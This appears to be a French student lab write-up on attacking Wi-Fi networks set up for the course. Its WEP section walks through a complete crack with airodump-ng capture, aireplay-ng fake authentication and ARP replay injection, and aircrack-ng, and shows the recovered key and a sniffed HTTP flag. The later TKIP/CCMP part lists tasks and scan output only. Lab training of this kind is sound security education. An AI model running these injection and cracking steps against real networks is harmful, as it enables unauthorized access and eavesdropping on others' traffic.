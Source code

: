 # R501-TP4 - Attaques Wifi

## 1 - Attaques d'un réseau WEP

1. Déterminer le canal du réseau R501-WEP et vérifier qu’il est bien configuré en WEP.

    ```bash
    sudo iw wlp0s20f0u3 scan | grep R501-WEP -A 16 -B 6
    ```

    nous donne:

    ```txt
      BSS b8:27:eb:d2:d5:f6(on wlp0s20f0u3)
      TSF: 635882552 usec (0d, 00:10:35)
      freq: 2432.0
      beacon interval: 100 TUs
      capability: ESS Privacy SpectrumMgmt ShortSlotTime (0x0511)
      signal: -31.00 dBm
      last seen: 0 ms ago
      Information elements from Probe Response frame:
      SSID: R501-WEP
      Supported rates: 1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 
      DS Parameter set: channel 5
      Country: CN	Environment: Indoor/Outdoor
        Channels [1 - 13] @ 20 dBm
      Power constraint: 0 dB
      TPC report: TX power: 15 dBm
      ERP: <no flags>
      Extended supported rates: 6.0 9.0 12.0 48.0 
      Extended capabilities:
        * Extended Channel Switching
      WMM:   * Parameter version 1
        * u-APSD
        * BE: CW 15-1023, AIFSN 3
        * BK: CW 15-1023, AIFSN 7
        * VI: CW 7-15, AIFSN 2, TXOP 3008 usec
        * VO: CW 3-7, AIFSN 2, TXOP 1504 usec
    ```

    l'AP utile le channel 5 pour communiquer.

2. Utiliser  `aircrack-ng`  pour cracker la clé WEP de ce réseau (sans utiliser de dictionnaire).
  Détailler toute la procédure

  - On passe notre carte en mode monitor:

    ```sh
    iwconfig <wireless-adapter> mode monitor
    ```

  - On switch de channel afin de pouvoir capturer les paquets:

    ```sh
    iw <wireless-adapter> set channel 5
    ```

  - ### Ecoute sur le channel 5

    On fait:

    ```sh
    airodump-ng -c 5 -w airod --output-format pcap --write-interval 15 --bssid b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```txt
    CH  5 ][ Elapsed: 6 mins ][ 2024-09-25 15:31 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    B8:27:EB:D2:D5:F6  -59 100     3586    69358    0   5   54e  WEP  WEP    OPN  R501-WEP                                                                                                                           

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    B8:27:EB:D2:D5:F6  5E:CC:1E:90:20:C4  -47   54e- 1e     0     4063         R501-WEP                                                                                                                               
    B8:27:EB:D2:D5:F6  F6:A6:D3:1A:2A:28  -46    0 - 1      4       69                                                                                                                                                
    B8:27:EB:D2:D5:F6  A2:1E:5C:C4:AF:F2  -47    1 - 1      0     5759                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:0C:7B  -28    0 - 1      2      135                                                                                                                                                
    B8:27:EB:D2:D5:F6  D8:44:89:03:43:6D  -38    1 - 1    199     7124                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:0C:A5  -63    1 - 1      0    32927                                                                                                                                                
    B8:27:EB:D2:D5:F6  B8:27:EB:E3:0C:EE  -51    1e- 1e     0      414                                                                                                                                                
    B8:27:EB:D2:D5:F6  24:0A:C4:11:03:10  -54    5e- 1      0     6323                                                                                                                                                
    B8:27:EB:D2:D5:F6  C4:E9:84:18:67:E1  -47    1 - 1      0    76966                                                                                                                                                
    ```


  - ### Injection de paquets

    On fait:

    ```sh
    aireplay-ng -1 0 -b b8:27:eb:d2:d5:f6 -a b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```sh
    No source MAC (-h) specified. Using the device MAC (C4:E9:84:18:0C:A5)
    15:29:13  Waiting for beacon frame (BSSID: B8:27:EB:D2:D5:F6) on channel 5

    15:29:13  Sending Authentication Request (Open System) [ACK]
    15:29:13  Authentication successful
    15:29:13  Sending Association Request
    15:29:13  Got a deauthentication packet! (Waiting 3 seconds)

    15:29:16  Sending Authentication Request (Open System) [ACK]
    15:29:16  Authentication successful
    15:29:16  Sending Association Request [ACK]
    15:29:16  Association successful :-) (AID: 1)
    ```


  - ### Injection de paquets ARP

    On fait:

    ```
    aireplay-ng -3 -b b8:27:eb:d2:d5:f6 wlxc4e984180ca5
    ```

    qui nous donne:

    ```
    No source MAC (-h) specified. Using the device MAC (C4:E9:84:18:0C:A5)
    15:27:00  Waiting for beacon frame (BSSID: B8:27:EB:D2:D5:F6) on channel 5
    Saving ARP requests in replay_arp-0925-152700.cap
    You should also start airodump-ng to capture replies.
    103449 packets (got 55680 ARP requests and 16151 ACKs), sent 22888 packets...(500 pps)
    ```

  - ### Obtention de la clé WEP

    On fait:

    ```sh
    aircrack-ng -a 1 -b b8:27:eb:d2:d5:f6 ./airod-**.cap
    ```

    ce qui nous donne:

    ```txt
                                                                                                  Aircrack-ng 1.7 


                                                                                    [00:00:02] Tested 764 keys (got 66242 IVs)
                                                                                              Got 66687 out of 5000 IVsStarting PTW attack with 66687 ivs.
    KB    depth   byte(vote)
      0    2/  3   FA(77056) 28(76032) 58(75520) BD(75520) 0B(75264) 59(74752) 92(74752) E8(74752) 6D(73984) 74(73984) E9(73984) A7(73728) 68(73472) E3(73216) CA(72960) DC(72960) F0(72960) 
      1    3/  1   14(76544) 0F(75776) D6(75008) 49(74752) 51(74240) 20(73984) 8B(72704) C9(72704) F2(72704) 79(72448) FC(72448) A1(71936) DF(71936) FE(71680) 38(71424) C5(71424) F7(71424) 
      2    0/  1   28(93184) 02(78336) 0F(76544) E1(75776) 0C(75520) EB(74496) E4(73728) 9B(73472) 35(72960) 37(72960) C8(72704) 04(72448) E3(72448) 80(72192) 91(72192) 9D(72192) BB(72192) 
      3    4/  9   95(76544) C5(75264) 48(74496) A7(74496) 0B(74240) E9(73984) CB(73728) 1A(73216) 6B(73216) 8F(73216) B8(73216) 35(72960) 14(72704) 88(72448) 3D(72192) 50(72192) ED(72192) 
      4   32/  4   87(70656) 5A(70400) 76(70400) C1(70400) D4(70400) FC(70400) 80(70144) 8A(70144) A7(70144) EE(70144) FF(70144) CD(69888) 36(69632) 3F(69632) BA(69632) FA(69632) 1D(69376) 

      KEY FOUND! [ 53:61:74:75:72:6E:52:69:6E:67:24:38:38 ] (ASCII: SaturnRing$88 )
    Decrypted correctly: 100%
    ```

3. Capturer et retrouver le flag récupéré par le client de ce réseau Wifi.

  On récupère la flag avec la trame HTTP de `192.168.205.10` au serveur Apache, `192.168.205.1`.

  La réponse HTTP:

  ```
  GET /flag HTTP/1.1
  Host: 192.168.205.1
  User-Agent: ESP32HTTPClient
  Connection: keep-alive
  Accept-Encoding: identity;q=1,chunked;q=0.1,*;q=0

  HTTP/1.1 200 OK
  Date: Tue, 24 Sep 2024 15:22:40 GMT
  Server: Apache/2.4.62 (Debian)
  Last-Modified: Thu, 19 Sep 2024 12:56:03 GMT
  ETag: "21-6227871f269fc"
  Accept-Ranges: bytes
  Content-Length: 33
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive

  RTBZ{Old_W3P_S3cur1ty_1s_br0k3n}
  ```

  ce qui nous donne:

  ```html
  RTBZ{Old_W3P_S3cur1ty_1s_br0k3n}
  ```

## 2. Attaques d’un réseau TKIP/CCMP :

1. Vérifier que le réseau R501-TKIP est bien configuré en WPA-PSK et TKIP.

    ```bash 
    [lucas@fedora sheet-cheat]$ sudo iw wlp0s20f3 scan | grep R501-TKIP -A 12 -B 9
    ```

    ```txt
    BSS 00:3a:99:1d:9b:30(on wlp0s20f3)
      last seen: 4570.609s [boottime]
      TSF: 6152642617 usec (0d, 01:42:32)
      freq: 5580.0
      beacon interval: 100 TUs
      capability: ESS Privacy SpectrumMgmt (0x0111)
      signal: -55.00 dBm
      last seen: 1407 ms ago
      Information elements from Probe Response frame:
      SSID: R501-TKIP
      Supported rates: 6.0*9.0 12.0* 18.0 24.0*36.0 48.0 54.0
      WPA:  * Version: 1
        *Group cipher: TKIP
        * Pairwise ciphers: TKIP
        *Authentication suites: PSK
        * Capabilities: 4-PTKSA-RC 4-GTKSA-RC (0x0028)
      WMM:  *Parameter version 1
        * u-APSD
        *BE: CW 15-1023, AIFSN 3
        * BK: CW 15-1023, AIFSN 7
        *VI: CW 7-15, AIFSN 2, TXOP 3008 usec
        * VO: CW 3-7, AIFSN 2, TXOP 1504 usec
    ```

2. Sachant que l’administrateur de ce réseau a paramétré un mot de passe faible
  (secret de seulement 8 digits -- uniquement des chiffres -- et sans doublons, soit 1814400 possibilités =10*9*8*7*6*5*4*3),
  créer un dictionnaire contenant tous les mots de passe possibles avec un script python.

3. Attaquer alors ce réseau, toujours avec aircrack-ng, avec uniquement la capture des trames EAPOL et le dictionnaire. Retrouver ensuite le flag dans les trames « 802.11 data ».
4. Vérifier que l’on peut faire pareil sur le réseau R501-CCMP.

    ```bash
    sudo iw wlan1 scan | grep R501-CCMP -A 18 -B 9
    ```
    

    ```txt
    BSS c4:e9:84:13:e1:e5(on wlan1)
        TSF: 6832788377 usec (0d, 01:53:52)
        freq: 2417
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -24.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: R501-CCMP
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
        DS Parameter set: channel 2
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0 
        RSN:	 * Version: 1
            * Group cipher: CCMP
            * Pairwise ciphers: CCMP
            * Authentication suites: PSK
            * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
            * current operating class: 81
        Extended capabilities:
            * Extended Channel Switching
            * SSID List
            * Operating Mode Notification
    BSS 70:f0:96:d2:e0:60(on wlan1)
        TSF: 13760143118736 usec (159d, 06:15:43)
        freq: 2412
    ```

